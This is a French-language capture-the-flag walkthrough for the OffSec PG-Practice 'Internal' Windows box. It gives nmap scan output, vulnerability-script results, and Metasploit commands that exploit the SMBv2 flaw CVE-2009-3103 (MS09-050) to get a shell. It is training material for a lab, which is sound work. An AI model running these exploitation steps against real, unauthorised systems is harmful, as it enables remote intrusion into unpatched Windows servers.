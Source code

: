 ```yaml
---
title: PG-Practice Internal 
meta_title: ""
description: La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice. Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue. Elle ne requiert pas d'élévation de privilèges.
date: 2024-04-04T05:00:00Z
image: /images/404CTF_logo.png
categories:
  - Réaliste
  - Easy
author: Emma.exe
tags:
  - realiste
  - pg-practice
  - offsec
draft: false
---
```


# Introduction

La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice.
Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue.
Elle ne requiert pas d'élévation de privilèges.
# Enumération

On commence toujours par énumérer la machine avec nmap.
J'utilise les options suivantes : 
- `-p-` pour énumérer tous les ports
- `-sV` pour obtenir les versions des services

```sh
nmap -p- 192.168.242.40 -sV            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:26 EDT
Nmap scan report for 192.168.242.40
Host is up (0.016s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds
```

Il ny a rien de particulier d'ouvert, on peut tester si la vulnérabilité MS10 17 (eternal blue) est présente sur la machine : 
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.242.40
```

C'est effectivement vulnérable !
Cependant, il est important d'énumérer la machine entièrement avant de passer à la phase d'exploitation.

Nous allons donc effectuer un autre scan de vulnérabilité plus généraliste avec nmap : 
```sh
nmap --script vuln 192.168.242.40 
Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false

```

On voit que la machine est aussi vulnérable à la faille "SMBv2 Negotiation Vulnerability" c'est-à-dire la CVE-2009-3103. Il est plus probable que ce soit cette vulnérabilité-là que l'auteur de la box veut nous faire exploiter.
En effet, elle est très intéressante puisqu'elle va permettre d'effectuer une RCE (Remote Execution Code) et potentiellement nous permettre d'obtenir un shell interactif. 
# Recherche d'exploit

Afin de trouver un exploit, je commence par me renseigner sur la vulnérabilité.
Premièrement, les vulnérabilités Windows sont souvent appelés par l'indicatif Microsoft.
Dans notre cas, on voit qu'elle est aussi appelé "MS09-050".
La vulnérabilité est due à une mauvaise implémentation du protocole SMBv2 dans certaines versions de Windows

Je fais une recherche sur le site https://exploit-db.com en utilisant MS09-050 et je constate qu'il existe plusieurs exploits.

exploit-db nous permet de voir si l'exploit a été vérifié ou non. Dans la mesure du possible, on privilégie les exploits qui le sont.

> Si vous décidez de choisir un exploit non vérifié, il est important de regarder ce que fait réellement l'exploit. 

Ici il n'y en a qu'un seul vérifié, disponible ici : 
https://www.exploit-db.com/exploits/16363

Il s'agit d'un module Metasploit.

# Exploitation

Nous lançons donc Metasploit en sudo :
```sh
sudo msfconsole
```

On recherche l'exploit en recherchant son ID : 
```sh
search exploit ms09_050_smb2_negotiate_func_index
```

Il devrait normalement apparaitre dans la recherche. 
{{< image src="images/PG-Internal-msfconsole-search.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}
On récupère son chemin et on tape la commande :

```sh
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
```

On affiche les options que nécessite l'exploit pour fonctionner en tapant la commande : 
```sh
show options
```

{{< image src="images/PG-Internal-msfconsole-options.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

On voit deux options requises qui ne sont automatiquement renseignée ou qu'il faut modifier : l'hôte distant (Remote Host) et l'hôte qui va réceptionner le shell (Listen Host).

On configure les options comme suit : 
```sh
set RHOSTS <ip-cible>
set LHOST <ip-local>
```

> Pour l'IP local, il faut bien choisir l'IP de l'interface qui communique avec le réseau Offsec (généralement celle de tun0)

On exécute l'exploit en tapant la commande : 
```sh
run
```

Au bout de quelques instants, on obtient un shell et on récupère le flag qui se trouve toujours sur le bureau Administrateur.
